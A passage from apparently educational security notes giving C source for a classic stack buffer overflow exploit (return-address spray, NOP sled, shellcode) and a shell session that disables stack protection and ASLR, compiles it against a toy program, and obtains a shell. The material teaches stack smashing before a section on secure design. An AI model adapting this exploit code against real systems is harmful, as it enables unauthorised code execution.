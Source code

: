     int main(int argc, char **argv) {
        unsigned int address, i, offset = 0;
        char buffer[768];
        char *n[] = { PROGRAM, buffer, NULL };

        /* offset from base address */
        if (argv[1]) {
            offset = strtol(argv[1], NULL, 10);
        }

        address = get_esp() + offset;
        fprintf(stderr, "using address %#010x\n", address);
        memset(buffer, 0, sizeof(buffer));

        /* fill buffer with addresses, four byte at a time */
        for (i = 0; i < sizeof(buffer); i += 4) {
            *(unsigned int *)(buffer + i) = address;
        }

        /* nop-sled to fill half buffer with nop */
        memset(buffer, 0x90, sizeof(buffer)/2);

        /* place shellcode after nop-sled, rest is filled with addresses */
        memcpy(buffer + sizeof(buffer)/2, code, strlen(code));

        execve(n[0], n, NULL);
        perror("execve");
        exit(1);
    }
    ```

- running exploit (note that `-fno-stack-protector` disables stack protection, which is enabled by default on some Linux distributions, and `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space` disables address space layout randomisation, or ASLR)

    ```
    $ CFLAGS="-m32 -fno-stack-protector -z execstack -mpreferred-stack-boundary=2"
    $ cc $CFLAGS -o program program.c
    $ cc $CFLAGS -o exploit exploit.c
    $ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    0
    $ ./exploit 1500
    using address 0x0xbffffa34
    buffer@0xbffff970: ...
    bash$
    ```

## <a name="5" class="anchor"></a> [5. Secure system design](#5)

*Keywords: secure hardware, tainted flow analysis, stack protections*

### <a name="5.1" class="anchor"></a> [5.1 Hardware and software solutions](#5.1)
